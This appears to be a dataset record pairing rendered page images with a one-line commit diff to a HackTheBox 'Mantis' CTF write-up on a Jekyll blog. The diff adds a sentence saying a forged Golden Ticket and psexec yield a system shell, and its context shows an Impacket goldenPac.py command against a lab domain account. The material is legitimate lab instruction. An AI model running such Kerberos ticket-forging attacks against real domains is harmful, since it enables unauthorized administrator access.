

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-08-11-Hackthebox-Mantis-Writeup.md, in a window 1280 px wide and 900 px high, scrolled down 7630 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
modify mantis-writeup

```diff
--- a/_posts/2019-08-11-Hackthebox-Mantis-Writeup.md
+++ b/_posts/2019-08-11-Hackthebox-Mantis-Writeup.md
@@ -279,7 +279,8 @@ At first, add following lines in "/etc/hosts"
 10.10.10.52 mantis.htb.local
 {% endhighlight %}
 
-Then, execute the script with following way to <a href="https://www.varonis.com/blog/kerberos-how-to-stop-golden-tickets/">forge a "Golden ticket"</a> and execute psexec.
+Then, execute the script with following way to <a href="https://www.varonis.com/blog/kerberos-how-to-stop-golden-tickets/">forge a "Golden ticket"</a> and execute psexec.<br>
+We can achieve an system shell.
 {% highlight shell %}
 root@kali:~# /usr/share/doc/python-impacket/examples/goldenPac.py htb.local/james@mantis.htb.local
 Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation
```
